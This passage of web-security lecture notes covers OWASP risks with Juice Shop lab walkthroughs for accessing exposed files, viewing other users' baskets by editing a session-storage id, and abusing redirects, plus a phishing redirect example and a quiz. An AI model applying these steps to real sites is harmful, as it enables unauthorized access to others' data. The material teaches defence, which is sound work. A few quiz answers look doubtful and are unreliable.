If a web application relies on outdated encryption strategies to secure sensitive data, it is just a matter of time until the encryption is broken.

In addition, if sensitive documents can be accessed without authorization a  malicious user can run scans of likely end points that are not securied.

#### :bangbang: Juice Shop

Of the [sensitive data exposure challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/sensitive-data-exposure.html) we here cover the *Confidential Documen* task which is simple: access a confidential document.

1. Head over to your Juice Shop installation, access the top-left side menu and click on the *About Us* link.
2. Take a closer link at the hyperlink `Check out our boring terms of use if you are interested in such lame stuff`. It is a relative link `ftp/legal.md`. 
3. Let's see whether there is something else in this `ftp` directory; all we have to do is slightly change our URL to `http://localhost:3000/ftp` (again, assuming a local installation of Juice Shop). Spoiler: we can access this directory (which is a huge security issue) and more importantly, we can view the confidential document `acquisitions.md` which describes Juice Shop's plans for the coming years.

#### How to avoid it

- All sensitive data should be encrypted across the network and when stored.
- Only store necessary sensitive data and discard it as soon as possible (e.g., credit card numbers, backups).
- Use strong encryption algorithms (a constantly changing target).
- [Disable autocompletion](https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion) of HTML forms collecting sensitive data.
- Disable caching for pages containing sensitive data.

### Broken access controls

A malicious user, who is authorized to access a web application (e.g., a student accessing Brightspace), changes the URL (or URL parameters) to a more privileged function (e.g., from student to grader). If access is granted, **insufficient function level access control** is the culprit.

Web applications often make use of *Direct Object References* when generating a HTTP response. We have already seen this in a code snippet in the [second Node.js lecture](node2.md) :point_down::

```javascript
 var wishlistPriorities = {
    high: ["Wingspan","Settlers of Catan","Azul"],
    medium: ["Munchkin"],
    low: ["Uno", "Scrabble"]
};

app.get('/wishlist/:priority', function (req, res, next) {
    let list = wishlistPriorities[req.params.priority];
    if (!list) {
        return next();
    }
    res.send(list);
});
```

Here :point_up:, we use the routing parameter `:priority` as property name of the `wishlistPriorities` object. Applications that do not verify whether a user requesting a particular route is authorized to access the route face security issues. In our concrete code example, this leads to so-called *insecure direct object references*. A malicious user can test a range of target URLs that should require authentication to determine whether this issue exists. This is especially easy for large web frameworks which come with a number of default routes enabled.

Consider a user who accesses her wishlist using the following URL `http://mywishlist.nl/wishlist?id=234`. Nothing stops the user from also trying, e.g., `http://mywishlist.nl/wishlist?id=2425353` or `http://mywishlist.nl/wishlist?id==1`. If the id values are insecure direct object references, the user can view other users' wishlists in this manner.

#### :bangbang: Juice Shop

Of the [broken access control challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/broken-access-control.html) we cover the *View Basket* challenge: view another user's shopping basket.

1. Go to your Juice Shop and login as `Bender`.
2. Add a few items to your shopping basket and view the basket at `http://localhost:3000/#/basket` (assuming a local installation).
4. Open the browser's dev tools and look into the *Session Storage*. 
5. You will find a key/value pair with key `bid` and a particular numerical value. 
6. Change this value to some other numbers to view other customers' baskets. Since you are accessing other accounts having the same privilege level, we are here dealing with a *horizontal privilege escalation*.

#### How to avoid it

- Avoid the use of direct object references (indirect is better).
- Avoid exposing object IDs, keys and filenames to users.
- All routes should include an authorization subroutine.

### CSRF

CSRF (:speaker: *sea-surf*) stands for **Cross-Site Request Forgery**.

In the words of OWASP: *"An attacker creates forged HTTP requests and tricks a victim into submitting them via image tags, XSS, or numerous other techniques. If the user is authenticated, the attack succeeds."*

Here is an example scenario: imagine a web application that allows users to transfer funds from their account to another account via a URL such as `http://mygame.nl/transferFunds?amount=100&to=342432` - the URL contains the amount and which account to send the funds to. The victim is already authenticated. An attacker constructs a request to transfer funds to her own account and embeds it in an image request stored on a site under her control :point_down::

```html

```

If the victim accesses the website that is under the attacker's control (e.g., because the attacker sent the victim an enticing email to access the URL), the browser downloads the HTML, parses it and starts rendering. It will automatically download the image without checking whether the `src` is actually an image. The transfer of funds will then take place if the web application the user is authenticated to does not defend against a CSRF attack. 

#### Juice Shop

There is no specific challenge on Juice Shop that showcases the CSRF attack as it requires another application.

#### How to avoid it

The main reason why this attack is successful in our example is due to the server *trusting* that the request was made with this intention by the victim - the request has the correct session ID and the server simply responds to the request.

How can the server validate that this request was intentionally sent by the user? The most common approach today is via a so-called *CSRF token*, a randomly generated string, generated by the server, that is unpredictable and cannot be guessed. The server inserts this CSRF token in the response, typically in a hidden form field (**not** in a cookie). The server also keeps track of the combination of session ID and CSRF token. When the user then fills in the form and submits it to the server, the CSRF token is returned to the server and the server checks whether it matches the one it has on record. If it is a match, the server executes the requested action (e.g., changing a user's profile data) and rejects it otherwise. An attacker is not able to guess this CSRF token - as long as we do not rely on cookies to store CSRF tokens, as cookies are appended to the HTTP request automatically by the browser. Although the attacker can try to guess a valid CSRF token, it should be impossible if the server generates CSRF tokens according to best practices.

As CSRF tokens are an established line of defense, Express middleware exists (a popular option is [csurf](https://www.npmjs.com/package/csurf)) that takes care of the generation and validation of CSRF tokens.

Another option for a web application to verify that a user intended a particular request are the use of reauthentication (the user is asked to authenticate again, e.g., if the request takes place at an unusual time, or at an unusual location).

Going back to our example, if a user is accessing a *Win an iPAD* web site and after submitting her ticket receives a request to reauthenticate to her online banking provider, she should realize that something is off.


### Insecure components

Vulnerabilities of software libraries and frameworks are continuously being discovered and patched. An application that is not patched when a vulnerability becomes known is a candidate for exploitation. It is important to be aware of the dependencies of one's Node.js application and install security patches quickly when they become available. 

Not only the application itself needs to be kept up-to-date, the server's operating system also needs to be continuously patched, as well as any other software used to support the web server (e.g., Redis, MongoDB, Nginx).

In 2018, a vulnerability called [Zip Slip](https://github.com/snyk/zip-slip-vulnerability) was discovered in many open source archiving libraries. The problem arises from missing validation of archives while decompressing. As a result, any compressed archive containing file names with relative paths (e.g., `../file.txt`) went unchecked. This means that during deompression each of those files was placed at its relative address which can be outside the archive directory. Attackers can use this vulnerability to move their own versions of critical libraries to the `/root` folder.

#### :bangbang: Juice Shop

Among the [vulnerable components challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/vulnerable-components.html) we cover the *Vulnerable Library*: inform the shop about a vulnerable library it is using.

There are many auditing tools available, a basic form of security auditing offers [`npm audit`](https://docs.npmjs.com/cli/audit), which scans all packages that depend on the application for known security issues. We first need to clone Juice Shop's GitHub repo, generate its `package-lock.json` file (which provides precise information on the required packages' dependencies) and finally run the security audit. Taken together the commands look as follows (starting with the creation of a temporary directory) :point_down::

```
→ mkdir tmpDir
→ cd tmpDir
→ git clone https://github.com/bkimminich/juice-shop.git
→ cd juice-shop
→ npm i --package-lock-only
→ npm audit
```

Within seconds we know that several critical vulnerabilities exist, in which packages they exist, and what type of vulnerability they enable. Often, the fix seems easy: use a more recent version of an npm package. However, in practice updating an npm package can lead to a host of additional coding work due to version compatabilities. 

Besides `npm audit`, commercial services such as [Snyk](https://snyk.io/) and exist to aid developers in keeping their libraries and package up to date. 

#### How to avoid it

- Always use latest versions of libraries.
- Keep a look out for [potential vulnerabiltiies](https://www.cvedetails.com/) in open source software, and patch them as soon as possible.
- Use available tools such as `npm audit`, especially when relying on many third-party packages. It is important to realize what security isuses those packages have.

### Unvalidated redirects

Let's cite OWASP one last time: *"An attacker links to an unvalidated redirect and tricks victims into clicking it. Victims are more likely to click on it, since the link is to a valid site."*

Here is an example scenario: imagine a web application that includes a route called `redirect`. That route takes a URL as parameter and redirects to that URL. Once an attacker finds a route that enables such redirects, the attacker creates a malicious URL that redirects users to her own site for phishing, for example :point_down::

```
http://www.mygame.nl/redirect?url=www.malicious-url.com
```

The user, when seeing this URL :point_up: in an email or forum, might just inspect the initial part of the URL, trusts it and subsequently click the link as it appears to be leading to the domain `mygame.nl`. Instead of `mygame.nl` it leads to `www.malicious-url.com` which the attacker controls. If the user does not check the address bar anymore, she will remain under the belief to be on `mygame.nl` - and if she is asked to re-enter her credit card information, she may just do that.

#### :bangbang: Juice Shop


Of the [unvalidated redirects challenges](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part2/unvalidated-redirects.html) we cover the *Outdated Whitelist* challenge: attempt to redirect to a cypto currency address which is no longer included in the shop.

1. Head over to your Juice Shop installation and log in as any user.
2. Check out the payment options at `http://localhost:3000/#/payment/shop` (assuming a local installation). You can also land here by following the procedure for *checking out*.
3. Observe that you cannot pay using a crypto currency. We know though that this used to be a feature in Juice Shop. Lets see whether we can still find it in the source code.
4. Use the browser's dev tools and open the Debugger tab. It should show you a list of JavaScript files that our application requires. View the contents of `main-es2018.js`. 
5. Search in `main-es2018.js` for the keyword `redirect?to`. Among other options, you will see three modes of crypto currency payments: `Bitcoin`, `Dash` and `Ether`. If you were to click on <kbd>Pay with Bitcoin</kbd> (*now unavailable*), you would be redirected to Blockchain's website without any warning. Note that here some protection is enabled: while a redirect to those three cryptocurrency URLs is possible, other redirects yield an *406 Error: Unrecognized target URL for redirect*.

#### How to avoid it

This attack can be avoided by disallowing redirects and forwards in a web application. When redirects have to be included, users should not be allowed to redirect via URL parameters. The user-provided redirects need to be validated: does the user have access rights to the target page?

## Summary

Overall, as we have just seen, web applications offer many angles of attack. Securing a web application requires extensive knowledge in different areas. When securing a web application, start with defending against the most frequent vulnerabilities. Use well-known auditing tools to fix issues. Keep your application up to date as much as possible. Look into tools such as [Dependabot](https://dependabot.com/) that create automatic pull requests to keep your application's dependencies up to date.

Keep in mind to sanitize and validate.

As a final note, the tools and libraries we have introduced in this lecture, are only a small sample of the many, many options out there. Depending on the programming language and frameworks you prefer, other tools may be a better fit. 

## Self-check

Here are a few questions you should be able to answer after having followed the lecture:


<details> 
  <summary>Consider the following list of abilities a malicious user (the attacker) may have after having managed to intercept all of your server's inbound network traffic:

  - The attacker can eavesdrop (i.e. read all HTTP requests your server receives).
  - The attacker can inject additional HTTP requests bound for your server.
  - The attacker can modify HTTP requests bound for your server.
  - The attacker can drop (i.e. delete) HTTP requests bound for your server. 
  
  You have developed a popular Web-based newsticker application that in real-time sends the latest news (received from one hundred different news agencies) to its users when opening the newsticker Website in the browser. Which of the listed abilities is required for an attacker to conduct a denial-of-service attack against your application?
</summary>
  None of these abilities are required.
</details>

<details> 
  <summary>You write a web application that contains a session management component. Clients who want to use your application have to authenticate and subsequently a session ID is used to guarantee them access to your application. Once they log out of your application, two steps should be implemented: (1) the session ID is to be deleted from the client and (2) the session ID is to be set to expired on the server. Which attack is enabled if the implementation of step (2) is forgotten?</summary>
  CSRF.
</details>

<details> 
  <summary>You have developed a Web application with multiple user accounts. Which threat is your Web application susceptible to if you can manipulate the URL of an account page to access other account pages?</summary>
  Insecure Direct Object References.
</details>

<details> 
  <summary>You develop a Web application that contains a session management component. You decide to use as session ID the concatenation of the current POSIX time (i.e. the number of seconds elapsed since 00:00:00 UTC January 1, 1970) and a counter starting at 100 that is incremented by 1 each time a new user requests a session at the same POSIX timestamp. Which main vulnerability arises in this scenario?</summary>
  Session hijacking.
</details>

<details> 
  <summary>What approaches are most likely to secure an application against cross-site request forgery?</summary>
  Reauthentication and CAPTCHA mechanisms.
</details>

<details> 
  <summary>A session-based system authenticates a user to a Web application to provide access to one or more restricted resources. To increase security for the end user, an authentication token should ..</summary>
  be stored in a non-persistent cookie.
</details>

<details> 
  <summary>What does an attacker require to succeed in a reflected XSS attack?</summary>
  A vulnerable web service that takes parts of the URLs it receives and generates output without validating the received data.
</details>

<details> 
  <summary>One common defense against CSRF attacks is the use of CSRF tokens. What is the idea behind this defense?</summary>
  Create a secret identifier (the CSRF token) on the server, share it with the client in a hidden form field and require the client to return it when making a request. The server only handles the request if the provided token is the same as the one it sent to the client earlier.
</details>

<details> 
  <summary>Which type of attack occurs when an attacker convinces a user to send a request to a server with malicious input and the server echoes the input back to client?</summary>
  Non-persistent XSS attack.
</details>

<details> 
  <summary>Sanitizing user input protects from which of the following attacks?</summary>
  Cross-site scripting.
</details>

<details> 
  <summary>What does the `same-origin` policy refer to, in particular Ajax)? How is this related to web security?</summary>
  ...
</details>

<details> 
  <summary>Which attack type does this scenario describe: An attacker can browse through other users' Facebook timelines by URL manipulation.</summary>
  ...
</details>

<details>
<summary>You have written a web application with a server-side component (a Node.js script). The web app requires a number of cookies (all set by the server-side component) to function properly. To minimize the chance of attack you have an idea: you develop a secret function F that computes for each cookie value a checksum. F is only known to you (the owner of the web application); F cannot be guessed. Initially when each cookie is created, the checksum is appended to the cookie value. When clients send existing cookies back to the server, your server-side component recomputes the checksum of the cookie value (without taking the appended checksum into account) - if the computed checksum is at least as large as the one sent back with the cookie, your application accepts the cookie as valid and non-malicious. How useful is this protection?</summary>
...
</details>

<details>
<summary>Which vulnerability does this scenario describe: A company *AlphaShoes* followed all the security principles for designing their website. They tested it thoroughly, and applied protection against all attacks. An attacker still manages to bypass the security of the website due to an underlying vulnerability. </summary>
...
</details> 
